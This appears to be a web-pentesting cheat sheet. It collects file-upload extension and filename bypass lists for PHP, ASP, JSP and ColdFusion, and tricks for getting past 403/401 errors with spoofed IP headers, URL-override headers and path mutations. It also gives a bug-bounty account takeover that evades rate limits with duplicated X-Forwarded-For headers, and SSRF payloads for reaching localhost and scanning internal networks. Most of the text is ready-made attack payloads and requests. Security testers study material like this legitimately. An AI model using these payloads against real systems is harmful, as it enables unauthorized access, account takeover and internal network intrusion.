 ***

Tricks bypass
- Some regex might be bypassed with `%0a` -> `\n`
Blacklisting Bypass
- PHP 
```
.phtm
.phtml
.phps
.pht
.php[2-5]
.shtml
.phar
```
- ASP
```
.asp
.aspx
.cer
.asa
```
- jsp
```
.jsp
.jspx
.jsw
.jsv
.jspf
```
- ColdFusion
```
.cfm
.cfml
.cfc
.dbm
```
- Using random capitalization
```
.pHp
.pHP5
.PhAr
```

**Whitelisting bypass**
```
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html
```

---
### Tips on bypassing 403 and 401 errors

Here's a list of tips on how to bypass 403 Forbidden and 401 Unauthorized errors:

1. **By adding headers:** X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For etc. Sometimes companies whitelist the IP for those who can access sensitive data. These header take IP address as a value and let you access the resource if the supplied IP matches with their whitelisted ones.
2. **With unicode chars:** Try inserting unicode characters to bypass the defenses. Try e.g. ½
3. **By overriding, overwriting URL with headers:** If GET /admin gives you 403 Forbidden, try to GET /accessible (any accessible endpoint) and add any of these HTTP headers:
	- X-Original-URL: /admin
	- X-Override-URL: /admin
	- X-Rewrite-URL: /admin
4. **Try different payloads:** if GET /admin gives you 403 Forbidden, try accessing:
	- /accessible/..;/admin
	- /.;/admin
	- /admin;/
	- /admin/~
	- /./admin/./
	- /admin?param
	- /%2e/admin
	- /admin#
5. **Method switching:** Change the method from GET to POST, and see if you get something
6. **Via IP, Vhost:** Access the site via its IP or Vhost to get the forbidden content.
7. **Fuzzing:** By brute forcing (fuzzing) files or directories further 
---
### Account Takeover Via Rate-Limit Bypass
In a private bug bounty program, when a password reset was initiated, users were required to enter a `six-digit numeric code` sent to their email for verification.

To prevent `brute forece` attacks, the application implemented `rate-limit` protection, restricting the number of requests users could make within a specific time frame. If this limit was surpassed, the system issued a `429 Too Many Requests` error message.

However, the rate limit protection was bypassed by admin two `X-Forwarded-For: IP` headers.
```http
POST /reset HTTP/2
Host: example.com
X-Forwarded-For: 1.1.1.1
X-Forwarded-For: 2.2.2.2
```
By replacing the IP address in the second `X-Forwarded-For` header, it came possible to bypass the `rate-limit` and try multiple code until the correct one was found.

Exploiting this vulnerability allowed for the unauthorized takeover of any account within the application.

---
### SSRF Payloads to Bypass Firewall
Here are 5 payloads that could be used for bypassing the defenses when it come to SSRF

1) Bypass SSRF with CIDR:
```
http://127.127.127.127
http://127.0.0.1
```
2) Bypass using rare address:
```
http://127.1
http://0
```
3) Bypass using tricks combinations:
```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
```
4) Bypass again weak parser:
```
http://127.1.1.1:80\@127.2.2.2:80/
```
5) Bypass localhost with `[::]`:
```
http://[::]:80/
http://0000::1:80/
```

Let's remind ourselves what SSRF vulnerabilities are and what can we do with them. In general, SSRF allow us to:
- Access services on loopback interface running on the remote server
- Scan internal network an potentially interact with the discovered services
- Read local files on the server using `file://` protocol handler
- move laterally/pivoting into the internal environment
How to find SSRF? When the target web application allow us to access external resources, e.g. a profile image loaded from external URL (running on a 3rd party website), we can try to load internal resources accessible by the vulnerable web application. For example:
1. We discover that the follow URL works:
	`https://example.com:8000/page?user=&link=https://127.0.0.1:8000`
2. We can then run intruder attack (Burp Suite) trying different ports, effectively doing a port scan of the host
3. We can also try to scan private `IPs` such as `192.168.x.x` and discover alive `IPs` in the internal network
